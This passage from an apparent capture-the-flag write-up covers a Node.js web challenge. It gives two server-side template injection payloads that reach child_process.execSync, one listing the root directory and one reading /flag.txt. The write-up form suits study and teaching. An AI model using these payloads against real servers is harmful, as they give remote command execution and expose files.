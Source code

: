 - Now we need to the flag, with some navigating in the server paths, I found the flag file in the root directory path.
```
node{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('ls /').toString()")()}}
```

![paddle_node.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Web%20images/paddle_node.png)

```
flag{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}
```

- Finally, we got the flag.

![paddle_flag.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Web%20images/paddle_flag.png)
